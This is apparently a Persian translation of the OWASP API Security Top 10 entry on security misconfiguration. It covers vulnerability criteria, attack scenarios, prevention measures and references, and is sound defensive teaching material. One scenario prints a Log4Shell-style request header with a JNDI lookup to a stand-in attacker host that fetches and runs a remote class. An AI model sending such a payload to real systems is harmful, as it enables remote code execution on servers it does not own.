 # API8:2023 پیکربندی امنیتی نادرست

| ضعف امنیتی | عوامل تهدید / مسیر حمله | پیامد |
|---------|--------------------|------------|
| خاص API / قابلیت بهره‌برداری: آسان |  میزان شیوع: گسترده/ قابلیت تشخیص: آسان              | پیامد فنی: متوسط / خاص کسب و کار
| مهاجمین غالبا در تلاش برای یافتن حفره‌های وصله نشده، توابع رایج یا فایل‌ها و مسیرهای محافظت نشده به منظور دسترسی غیرمجاز به سیستم هستند. اطلاعات و تکنیک‌های مرتبط با این مسائل به طور عمومی در دسترس بوده و احتمال وقوع حمله در مورد آنها وجود دارد.              | پیکربندی امنیتی نادرست می‌تواند در هر سطحی از API، از سطح شبکه تا سطح اپلیکشن روی دهد. ابزارهای خودکاری وجود دارند که فرایند تشخیص و بهره برداری از پیکربندی‌های نادرست نظیر تشخیص سرویس‌های غیرضروری را انجام می‌دهند.     | پیکربندی امنیتی نادرست نه تنها می‌تواند اطلاعات حساس کاربر را افشا کند بلکه جزئیاتی از سیستم که ممکن است به از دست رفتن کامل سرور منجر شود را نیز در معرض خطر قرار می‌دهد.         |

## آیا API از نظر پیکربندی امنیتی نادرست‌‌‌آسیب‌پذیر است؟

API از منظر پیکربندی امنیتی نادرست ‌‌‌آسیب‌پذیر است اگر:

- ایمن سازی امنیتی مناسب در هر قسمت از پشته اپلیکیشن رعایت نشده یا اپلیکیشن مجوزهای با پیکربندی نادرست روی سرویس‌‌‌‌های ابری داشته باشد.
- جدیدترین وصله‌‌‌‌های امنیتی نصب نشده و سیستم‌‌‌‌ها کاملا بروز نباشند.
- ویژگی غیرضروری (نظیر Verb اضافی HTTP) فعال باشند.
- تفاوت‌هایی در نحوه پردازش درخواست‌های ورودی توسط سرورها در زنجیره سرور HTTP وجود داشته باشد.
- امنیت لایه انتقال (TLS) غیرفعال باشد.
- دستورات و الزامات امنیتی (نظیر  <LINK> سرایندهای امنیتی) به سوی کلاینت ارسال نشوند.
- خط مشی اشتراک متقابل منابع (CORS) وجود نداشته یا به درستی ‌پیاده‌سازی نشده باشد.
- پیام‌‌‌‌های خطا ردپای پشته یا اطلاعات حساس دیگر را افشا نمایند.

## مثال‌‌‌‌هایی از سناریوهای حمله

### سناریو #1

سروری از API یک نرم‌افزار ثبت دسترسی معتبر و متن‌باز با قابلیت توسعه و پشتیبانی از جستجوهای JNDI (واسطه نام‌گذاری و دایرکتوری جاوا) برای ثبت درخواست‌ها و دسترسی‌ها استفاده می‌کند. برای هر درخواست جدید، یک ورودی جدید با الگوی زیر ثبت می‌شود: `http <method> <api_version>/<path> - <status_code>` یک عامل مخرب، درخواست API مشخصی را ارسال می‌کند که در فایل گزارش دسترسی نوشته می‌شود:

```http
GET /health
X-Api-Version: ${jndi:ldap://attacker.com/Malicious.class}
```

اگر مهاجم از یک سرور کنترل از راه دور برای اجرای یک کد مخرب با نام  `Malicious.class`  استفاده کرده و این کد را در سرآیند درخواست `X-Api-Version` قرار دهد، نرم‌افزار گزارش‌دهی، به دلیل تنظیمات پیش‌فرض ناامن خود، این کد مخرب را از سرور مهاجم دانلود کرده و اجرا می‌کند.

### سناریو #2

یک وب‌سایت شبکه‌ی اجتماعی امکان ارسال "پیام مستقیم" را فراهم کرده که به کاربران امکان برقراری گفت‌وگوی خصوصی را می‌دهد. برای دریافت پیام‌های جدید در یک گفت‌وگو خاص، وب‌سایت درخواست API زیر را ارسال می‌کند (نیازی به تعامل کاربری نیست):

```http
GET /dm/user_updates.json?conversation_id=1234567&cursor=GRlFp7LCUAAAA
```

پاسخ API شامل هدر پاسخ `HTTP Cache-Control` نمی‌شود، به همین علت گفت‌وگوهای خصوصی در مرورگر وب ذخیره شده و به مهاجمان اجازه می‌دهد که آنها را از فایل‌های حافظه نهان مرورگر در فایل‌سیستم بازیابی کنند.

## چگونه از ‌‌‌آسیب‌پذیری پیکربندی امنیتی نادرست پیشگیری کنیم؟

چرخه حیات API بایستی شامل موارد زیر باشد:

- فرایندی تکرار شونده برای ایمن سازی API که منجر به ‌پیاده‌سازی سریع و آسان یک محیط ایمن شود.
- فرایندی برای بازبینی و بروزرسانی پیکربندی‌‌‌‌ها در سراسر پشته API؛ این بازبینی بایستی موارد از جمله بازبینی هماهنگی بین فایل‌‌‌‌ها، مولفه‌‌‌‌های API و سرویس‌‌‌‌های ابری (نظیر مجوزهای باکت‌‌‌‌های S3) را دربرگیرد.
- فرایندی خودکار جهت ارزیابی پیوسته و مداوم اثربخشی پیکربندی و تنظیمات اعمال شده در سراسر محیط API و اپلیکیشن.

بعلاوه:

- حصول اطمینان از این که تمام ارتباطات API از سمت مشتری به سرور و هر کارکردهای دیگر روی یک کانال ارتباطی رمزنگاری شده (TLS) انجام می‌شود؛ بدون توجه به اینکه آیا این API داخلی است یا به صورت عمومی منتشر شده است.
- حصول اطمینان از اینکه API فقط به افعال HTTP مدنظر توسعه دهنده پاسخ می دهد و غیرفعال کردن سایر افعال (نظیر HEAD).
- APIهایی که انتظار می‌رود دسترسی به آنها از طریق کلاینت‌‌‌‌های مبتنی بر مرورگر (مثلا فرانت WebApp) باشد:
  - بایستی خط مشی CORS مناسب را بکار گیرند.
  - شامل سرآیندهای امنیتی قابل اجرا باشند.
  - محتوا و فرمت‌ داده‌های ورودی را طوری محدود کنید که با نیازها و عملکرد کسب‌وکار سازگار باشند.
- برای جلوگیری از مشکلات عدم هماهنگی، مطمئن شوید که تمام سرورها در زنجیره سرورهای HTTP (مانند توازن بار، پروکسی‌های معکوس و پیشرو و back-end) درخواست‌های ورودی را به شیوه‌ای یکنواخت پردازش می‌کنند.
- در موارد قابل اجرا، تمام طرح‌های بارگیری پاسخ API تعریف و اعمال شود، از جمله پاسخ‌های خطا، تا از ارسال جزئیات اشتباه و اطلاعات مهم به مهاجمان جلوگیری گردد.
- برای همه پاسخ‌هایی که از API دریافت می‌شود، حتی پاسخ‌های شامل پیغام خطا، یک نقشه ساختاری دقیق تعریف شود. این اقدام باعث می‌شود که جزئیات خطاها و سایر اطلاعات حساس به مهاجمان ارسال نشود.

## مراجع

- [OWASP Secure Headers Project][1]
- [Configuration and Deployment Management Testing - Web Security Testing Guide][2]
- [Testing for Error Handling - Web Security Testing Guide][3]
- [Testing for Cross Site Request Forgery - Web Security Testing Guide][4]

### خارجی

- [CWE-2: Environmental Security Flaws][5]
- [CWE-16: Configuration][6]
- [CWE-209: Generation of Error Message Containing Sensitive Information][7]
- [CWE-319: Cleartext Transmission of Sensitive Information][8]
- [CWE-388: Error Handling][9]
- [CWE-444: Inconsistent Interpretation of HTTP Requests ('HTTP Request/Response Smuggling')][10]
- [CWE-942: Permissive Cross-domain Policy with Untrusted Domains][11]
- [Guide to General Server Security][12], NIST
- [Let's Encrypt: a free, automated, and open Certificate Authority][13]

[1]: https://owasp.org/www-project-secure-headers/
[2]: https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/02-Configuration_and_Deployment_Management_Testing/README
[3]: https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/08-Testing_for_Error_Handling/README
[4]: https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/06-Session_Management_Testing/05-Testing_for_Cross_Site_Request_Forgery
[5]: https://cwe.mitre.org/data/definitions/2.html
[6]: https://cwe.mitre.org/data/definitions/16.html
[7]: https://cwe.mitre.org/data/definitions/209.html
[8]: https://cwe.mitre.org/data/definitions/319.html
[9]: https://cwe.mitre.org/data/definitions/388.html
[10]: https://cwe.mitre.org/data/definitions/444.html
[11]: https://cwe.mitre.org/data/definitions/942.html
[12]: https://csrc.nist.gov/publications/detail/sp/800-123/final
[13]: https://letsencrypt.org/


  

